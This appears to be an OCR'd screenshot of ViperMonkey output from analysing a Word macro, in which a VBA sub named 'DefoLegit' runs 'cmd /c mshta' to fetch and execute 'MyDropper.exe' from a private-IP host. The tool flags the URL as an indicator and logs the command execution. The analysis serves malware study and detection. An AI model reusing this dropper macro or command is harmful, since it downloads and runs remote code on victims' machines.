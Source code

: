 ```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
-------------------------------------------------------------------------------
VBA CODE (with long lines collapsed):
Private Sub DefoLegit()
    Shell ("cmd /c mshta http://10.0.0.10:4444/MyDropper.exe")
End Sub
-------------------------------------------------------------------------------
PARSING VBA CODE:
INFO     parsed Sub DefoLegit (): 1 statement(s)
INFO     Reading document variables...
INFO     Reading document comments...
INFO     Reading Shapes object text fields...
INFO     Reading InlineShapes object text fields...
INFO     Reading TextBox and RichEdit object text fields...
INFO     Reading custom document properties...
INFO     Reading embedded object text fields...
INFO     Reading document text and tables...
Traceback (most recent call last):
  File "/opt/vipermonkey/src/vipermonkey/vipermonkey/export_doc_text.py", line 17, in <module>
    from unotools import Socket, connect
ModuleNotFoundError: No module named 'unotools'
ERROR    Running export_doc_text.py failed. Command '['python3', '/opt/vipermonkey/src/vipermonkey/vipermonkey/export_doc_text.py', '--text', '-f', '/tmp/tmp_word_file_5917811720']' returned non-zero exit status 1         
INFO     Reading form variables...

-------------------------------------------------------------------------------
TRACING VBA CODE (entrypoint = Auto*):
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/xap/1.0/sType/ResourceEvent'                                                   
INFO     Found possible intermediate IOC (URL): 'http://www.w3.org/1999/02/22-rdf-syntax-ns'                                                        
INFO     Found possible intermediate IOC (URL): 'http://purl.org/dc/elements/1.1/'                                                                  
INFO     Found possible intermediate IOC (URL): 'http://schemas.openxmlformats.org/drawingml/2006/main'                                             
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/xap/1.0/mm/'                                                                   
INFO     Found possible intermediate IOC (URL): 'http://10.0.0.10:4444/MyDropper.exe'                                                               
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/photoshop/1.0/'                                                                
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/xap/1.0/'                                                                      
INFO     Emulating loose statements...
WARNING  No entry points found. Using heuristics to find entry points...
INFO     ACTION: Found Heuristic Entry Point - params 'DefoLegit' - 
INFO     evaluating Sub DefoLegit
INFO     Calling Procedure: Shell("['cmd /c mshta http://10.0.0.10:4444/MyDropper.exe']")                                                           
INFO     Shell('cmd /c mshta http://10.0.0.10:4444/MyDropper.exe')
INFO     ACTION: Execute Command - params 'cmd /c mshta http://10.0.0.10:4444/MyDropper.exe' - Shell function                                       
INFO     ACTION: Found Heuristic Entry Point - params 'DefoLegit' - 
INFO     evaluating Sub DefoLegit
INFO     Calling Procedure: Shell("['cmd /c mshta http://10.0.0.10:4444/MyDropper.exe']")                                                           
INFO     Shell('cmd /c mshta http://10.0.0.10:4444/MyDropper.exe')
INFO     ACTION: Execute Command - params 'cmd /c mshta http://10.0.0.10:4444/MyDropper.exe' - Shell function                                       

Recorded Actions:
+----------------------+---------------------------+----------------+
```